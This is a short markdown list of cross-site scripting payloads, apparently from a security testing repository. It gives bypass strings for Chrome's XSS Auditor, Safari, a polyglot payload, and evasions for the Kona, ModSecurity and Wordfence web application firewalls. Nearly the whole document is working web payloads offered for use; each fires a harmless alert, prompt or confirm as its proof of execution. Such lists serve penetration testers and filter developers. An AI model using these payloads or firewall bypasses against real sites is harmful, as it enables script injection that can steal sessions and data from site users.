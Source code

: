 # XSS Payloads 2

## Chrome XSS-Auditor Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

## Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

## Otros Chrome XSS-auditor bypasses

```
<script>alert(1)</script
```
```
<script>alert(1)%0d%0a-->%09</script
```
```
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

## Safari XSS

```
<script>location.href;'javascript:alert%281%29'</script>
```

## XSS Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Kona WAF Bypass

```
\');confirm(1);//
```

## ModSecurity WAF Bypass

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

## Wordfence XSS Bypasses

```html
<meter onmouseover="alert(1)"
```
```
'">><div><meter onmouseover="alert(1)"</div>"
```
```
>><marquee loop=1 width=0 onfinish=alert(1)>
```